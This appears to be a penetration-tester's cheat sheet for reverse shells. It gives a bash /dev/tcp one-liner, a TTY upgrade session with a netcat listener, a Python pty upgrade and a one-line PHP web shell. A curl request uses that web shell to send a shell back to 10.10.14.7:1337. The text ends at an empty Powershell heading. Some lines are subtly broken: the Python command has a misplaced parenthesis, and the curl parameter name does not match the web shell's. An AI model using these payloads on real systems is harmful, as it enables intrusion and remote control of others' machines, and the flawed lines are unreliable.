 # Reverse Shells

## One-Liners

### Bash
Easy Bash
```
bash -c "bash -i >& /dev/tcp/<IP>/<port> 0>&1"
```
## Shell Upgrades
* **Bash
  ```bash
  root@target:/backend# script /dev/null -c bash
  script /dev/null -c bash            
  Script started, file is /dev/null
  root@target:/backend# ^Z                 
  [1]+  Stopped                 nc -lnvp 1337
  chuxtr@kali$ stty raw -echo; fg
  nc -lnvp 1337
            reset
  reset: unknown terminal type unknown
  Terminal type? screen
  root@target:/backend#
  ```
* **Python Shell Upgrade
  ```bash
  python -c ('import pty; pty.spawn("/bin/bash")'
  ```
### PHP
Simple PHP WebShell
```bash
<?php system($_GET["Chuxtr"]); ?>
```
Example
```bash
echo '<?php system($_GET["Chuxtr"]); ?>' > Chuxtr.php
```
Usage
```bash
# This example produces a bash shell back to the host (Note the URL encoding)
root@kali# curl 'http://127.0.0.1:52846/Chuxtr.php?chuxtr=bash%20-c%20%27bash%20-i%20%3E%26%20/dev/tcp/10.10.14.7/1337%200%3E%261%27'
```
## Scripts
### Powershell

